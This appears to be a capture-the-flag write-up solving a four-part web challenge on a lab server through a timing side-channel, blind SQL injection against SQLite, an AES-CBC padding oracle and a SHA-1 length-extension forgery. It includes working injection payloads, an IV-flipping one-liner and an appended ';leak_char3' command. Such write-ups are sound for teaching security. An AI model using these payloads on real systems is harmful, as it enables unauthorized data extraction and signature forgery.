


# Hack to the Future

## Question 2

*Recover this token from `http://safe.med.pccc:5000`.*

### Analysis

Navigating to `http://safe.med.pccc:5000`, we find a "Secret Portal" that requires a 4-character access code to retrieve the flag. The page also lists four interesting endpoints under "Public Information":



- `/timing?guess=XXXX`
- `/user_search?username=foo`
- `/ciphertext` and `/decrypt`
- `/signed_example` and `/signed?cmd=...&sig=...`

The description says "Each character is protected in a different subsystem." This tells us each endpoint is responsible for revealing one character of the code. We need to exploit each subsystem to recover its character, then combine them to unlock the token.

By probing each endpoint and observing its behavior, we can identify the vulnerability class for each:

1. `/timing` — responds to all guesses with the same text, but the response *time* varies depending on correctness (timing side-channel)
2. `/user_search` — accepts a `username` parameter and returns "Found" or "No such user" (SQL injection)
3. `/ciphertext` + `/decrypt` — returns encrypted data and provides a decryption oracle that leaks padding validity (AES-CBC padding oracle)
4. `/signed_example` + `/signed` — provides a signed command and validates signatures (SHA-1 length extension)

Your 4-character code is unique to your instance.

### Steps

#### Character 1 — Timing Side-Channel

1) Test the timing endpoint:

```bash
curl "http://safe.med.pccc:5000/timing?guess=A"
curl "http://safe.med.pccc:5000/timing?guess=B"
```

Both return `Timing check complete.` — the response text is identical regardless of the guess. However, the endpoint name "timing" hints that the *response time* depends on whether the guess is correct. A correct first character causes a measurably longer delay (~40ms extra).

2) To exploit this, we test all possible characters (a-z, A-Z, 0-9) and measure the median response time for each. The character with the highest latency is our answer. The solver script `char0.py` automates this:

```bash
python3 char0.py
```

**Output**

```text
[+] Top 5 candidates by latency:
    X: 0.05321s
    ...
[+] Likely char0: X (median=0.05321s)
```

Since this is timing-based, you may want to run it multiple times to confirm. The character with consistently higher latency is the correct one.

#### Character 2 — SQL Injection

1) Test the user search endpoint:

```bash
curl "http://safe.med.pccc:5000/user_search?username=admin"
# Response: Found at least one user.

curl "http://safe.med.pccc:5000/user_search?username=definitely_no_such_user"
# Response: No such user.
```

The endpoint searches a database for the given username and returns a boolean result — "Found at least one user." or "No such user." This binary response pattern is a classic setup for **blind SQL injection**: we can inject SQL into the `username` parameter and use the true/false response to ask questions about the database.

2) First, confirm the endpoint is vulnerable to SQL injection by using a tautology:

```bash
curl "http://safe.med.pccc:5000/user_search?username=' OR '1'='1"
# Response: Found at least one user.

curl "http://safe.med.pccc:5000/user_search?username=' AND '1'='2"
# Response: No such user.
```

The first query always returns true (confirming injection works), and the second always returns false. This tells us the `username` parameter is directly interpolated into a SQL query without sanitization.

3) Next, we need to find where the secret character is stored. The lightweight nature of this Flask app suggests it's using SQLite. In SQLite, the `sqlite_master` table contains metadata about all tables. We can enumerate table names using blind SQLi:

```bash
# How many tables exist?
curl "http://safe.med.pccc:5000/user_search?username=' OR (SELECT count(*) FROM sqlite_master WHERE type='table') > 1 --"
# Response: Found at least one user.  (more than 1 table)

# Extract the second table name character-by-character
curl "http://safe.med.pccc:5000/user_search?username=' OR (SELECT substr(name,1,1) FROM sqlite_master WHERE type='table' LIMIT 1 OFFSET 1)='s' --"
# Response: Found at least one user.  (starts with 's')
```

Continuing this extraction reveals a table called `secret_chars`. We can then probe its columns by testing common names (`k`, `v`, `key`, `value`, etc.):

```bash
# Confirm the table has a column 'v' with a row where k='char1'
curl "http://safe.med.pccc:5000/user_search?username=' OR (SELECT v FROM secret_chars WHERE k='char1') IS NOT NULL --"
# Response: Found at least one user.
```

4) Now we can extract the character value by comparing it against each candidate:

```bash
# Test if the value for key 'char1' is 'A'
curl "http://safe.med.pccc:5000/user_search?username=' OR (SELECT v FROM secret_chars WHERE k='char1')='A' --"
# Response: No such user.  (wrong guess)

# Try 'Y'
curl "http://safe.med.pccc:5000/user_search?username=' OR (SELECT v FROM secret_chars WHERE k='char1')='Y' --"
# Response: Found at least one user.  (correct!)
```

5) The solver script `char1.py` automates the entire process — it enumerates tables via `sqlite_master`, identifies which table holds the secret, then extracts the character value:

```bash
python3 char1.py
# 1.py in our example, but same script.
```




#### Character 3 — AES-CBC Padding Oracle

1) This token involves two related endpoints. First, retrieve the ciphertext:

```bash
curl "http://safe.med.pccc:5000/ciphertext"
```

This returns a base64-encoded blob. The `/ciphertext` endpoint name combined with a separate `/decrypt` endpoint tells us we're dealing with a cipher that the server will decrypt for us — a classic padding oracle setup.

2) Decode the base64 to understand its structure. The blob is `IV (16 bytes) || ciphertext (one or more 16-byte blocks)` — standard AES-CBC. We can confirm this by checking the length:

```bash
curl -s "http://safe.med.pccc:5000/ciphertext" | base64 -d | wc -c
# Output: 48 (16-byte IV + 32 bytes of ciphertext = 2 blocks)
```

3) Now test the `/decrypt` endpoint to see how it responds. Submit the original ciphertext:

```bash
curl -X POST -d "data=$(curl -s http://safe.med.pccc:5000/ciphertext)" "http://safe.med.pccc:5000/decrypt"
# Response: OK
```

Next, modify a single byte in the IV portion and resubmit. We can do this with a quick Python one-liner:

```bash
python3 -c "
import base64, requests
blob = base64.b64decode(requests.get('http://safe.med.pccc:5000/ciphertext').text.strip())
# Flip the last byte of the IV
modified = blob[:15] + bytes([blob[15] ^ 0x01]) + blob[16:]
r = requests.post('http://safe.med.pccc:5000/decrypt', data={'data': base64.b64encode(modified).decode()})
print(f'Status: {r.status_code}, Body: {r.text}')
"
```

Depending on which byte we flip, we get either `OK` (200) or `Bad padding.` (403). This differential response confirms a **padding oracle vulnerability** — the server decrypts our ciphertext and tells us whether the PKCS#7 padding is valid. This leaks enough information to recover the entire plaintext byte-by-byte.

4) The attack works as follows: in AES-CBC, each plaintext block is XORed with the previous ciphertext block (or IV for the first block) before encryption. By manipulating a byte in the IV, we change the corresponding decrypted plaintext byte. If we systematically try all 256 values for a byte position and observe which ones produce valid padding, we can deduce the intermediate decryption state, and from that, recover the original plaintext.

Since the plaintext is small (fits in two blocks), and the character we need is in the first block, we only need to attack the first block using the IV as our manipulation target.

5) The solver script `char2.py` implements this classical padding oracle attack, decrypting the first block byte-by-byte and extracting the character from the `char2_is:` marker:

```bash
python3 char2.py
```


#### Character 4 — SHA-1 Length Extension

1) Examine the signed command endpoint:

```bash
curl "http://safe.med.pccc:5000/signed_example"
```

**Output**

```text
Example signed command:

cmd=cmd=status
sig=9b8e1a2f...

Submit your own cmd & sig to /signed
```

This gives us a known message and its signature. The output format is `cmd=<message>` and `sig=<hex>`, so the actual signed message is `cmd=status` and the signature is the hex string. The `/signed` endpoint accepts `cmd` and `sig` as query parameters and validates the signature.

2) Verify the endpoint accepts the provided example:

```bash
curl "http://safe.med.pccc:5000/signed?cmd=cmd%3Dstatus&sig=9b8e1a2f..."
```

This returns `OK: cmd=status (1 of 2 signed commands recognized; the other may leak a secret)`. Submitting a modified command or a different signature returns a 403, confirming the server validates the MAC. The response also tells us something important: there are **2 commands** the server recognizes, and the other one "leaks a secret." We need to find and execute that second command.

3) The fact that the signature is a 40-character hex string tells us it's SHA-1 (160-bit output). The server is likely computing `SHA1(secret || message)` — a **naive MAC construction** that is vulnerable to **length extension attacks**. Unlike HMAC, the `H(secret || message)` pattern allows an attacker who knows the hash output and the message length to compute `H(secret || message || padding || attacker_data)` without knowing the secret. This is a well-known property of Merkle-Damgard hash functions like SHA-1.

4) We know there's a second command, and we've already seen a naming pattern throughout this challenge: `char0` (timing), `char1` (SQLi table), `char2` (padding oracle plaintext). Following this pattern, the fourth character's command is likely `leak_char3`. Since the server processes commands as strings, we can chain a second command using `;` as a separator — giving us `;leak_char3` to append.

However, we can't simply change the command and reuse the old signature — the MAC would be invalid. This is where the length extension attack comes in: we can forge a valid signature for the extended message without knowing the secret key.

5) To test manually, we first need to understand the length extension attack. Given:
   - The known hash: `SHA1(secret || "cmd=status")` = the sig from `/signed_example`
   - The known message: `cmd=status` (10 bytes)
   - The unknown secret length (we'll brute-force this, typically 16-64 bytes)

We can compute a valid signature for `cmd=status || SHA1_padding || ;leak_char3` by resuming the SHA-1 state from the known hash value. The message we submit to `/signed` is the original message + padding bytes + our appended command, and the forged signature covers the entire extended message.

6) The solver script `char3.py` implements a pure-Python SHA-1 length extension attack. It brute-forces the secret key length (1-79 bytes), and for each candidate length computes the forged MAC and submits it:

```bash
python3 char3.py
```

**Output**

```text
[*] Known cmd: cmd=status
[*] Known sig: 9b8e...
[+] Success with secret_len = 32
[+] Server response: char3=W
```

The script finds that the secret is 32 bytes long, forges a valid signature for the extended command, and the server responds with the fourth character.

#### Submitting the Code

With all four characters recovered (`X`, `Y`, `Z`, `W` in this example), navigate to `http://safe.med.pccc:5000` and enter the 4-character code in the form. If correct, the flag is displayed.

## Answer

The token for this objective is the value displayed after submitting the correct 4-character code (e.g., `PCCC{Safe_and_sound-FINALS}`).
